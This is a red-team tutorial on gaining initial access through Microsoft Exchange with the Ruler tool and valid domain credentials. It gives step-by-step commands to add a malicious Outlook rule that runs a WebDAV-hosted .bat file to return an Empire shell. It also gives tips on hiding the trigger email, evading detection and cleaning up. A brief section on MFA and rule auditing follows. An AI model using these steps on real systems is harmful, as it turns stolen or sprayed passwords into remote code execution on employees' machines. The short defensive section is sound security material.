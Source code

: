 # Initial access through exchange

## Requirements

* Installing [golang ](https://github.com/golang)
* Installing [ruler](https://github.com/sensepost/ruler)
* A valid domain user credentials

## Introduction

Ruler is a tool that allows you to interact with Exchange servers remotely, through either the MAPI/HTTP or RPC/HTTP protocol. The main aim isto abuse the client-side Outlook features and gain a shell remotely.

Ruler attempts to interact with Exchange and uses the Autodiscover service \(just like in your organization\) to discover the relevant information needed to proceed.

## What can we use ruler for

We can use ruler to do many things ill list its main feature below but, what i am going to show you is gonna be a way to pop a shell through ruler and the only thing we need is a valid username/password and the user to have outlook open. This can be very useful to pop a shell after a successful password spraying.

in a real life scenario most employees leave their outlook open because they are often checking for incoming mails etc.

* Enumerate valid users
* Create new malicious mail rules 
* Dump the Global Address List \(GAL\)
* VBScript execution through forms
* VBScript execution through the Outlook Home Page

crazy isnt it? now that we know some of ruler usage lets get starting

### Checking that we are good to go :

i wont go through on how to find mail structures,adding dns records etc ill leave you to explore it.

once we know the mail structure,added dns records etc we can start by checking with the exchange server that we can communicate to it and that we are able to authenticate and open the mailbox.

depends on how you compile ruler it may be different than the syntax below

```text
./ruler --email test@lab.local --verbose check
```

once executed we will get a password prompt,if everything is valid we should get a messsage stating that the mailbox has been opened and that we are good to go.

### Viewing Existing Rules :

```text
./ruler --email test@lab.local display
```

### Setting up an Empire Listener

i wont go into how to set up an empire or its listener you can refer to chryzsh [link](https://chryzsh.gitbooks.io/darthsidious/content/responder/relay.html) in the book to get an understanding of how to quickly set it up. instead of using a one liner we should generate a .bat powershell and host it on a webdav server.

there are many guides on the net on how to quickly set up a webdav server.

its worth mentiniong that its possible to evade detection by zipping the .bat and then calling it through webdav directory.

ill update this method in the future.

### Creating the rule

```text
./ruler --email test@lab.local add --name test --trigger shell --location "\\\\webdav.test\\webdav\shell.bat" --send
```

this command basically gonna send an email to the user inbox and trigger our rule when that happens we should shortly after recieve our empire shell.

now its worth mentioning that the user wont see the mail in his sent items since its automatically gettin deleted so we dont have to worry about that.

### Deleting the rule & Cleaning up

once we are done we can delete

`./ruler --email test@lab.local delete --name test`

### Defending against Ruler

1. Enable Multi-factor Authentication for all of your users, especially those with administrative privileges.
2. Monitor your accounts for illicit activity. You can do this manually, or with a security monitoring toolset. This may not prevent the initial breach, but will shorten the duration, and the impact of the breach.

### How to Detect it

The simplest method is to use a script microsoft made to get all the rules

[https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1](https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1)

You will need to have a global admin role to run the script

### Closing Thoughts

with ruler we can pop a shell and pivot across the network its a great tool that has alot to explore what i showed here is a just one of the things its capable of doing i suggest you to explore the rest of it and get better understanding of its true power.

Written by : ~~**BufferOv3rride**~~ Written: 30.03.2018 Last edited: 30.03.2018


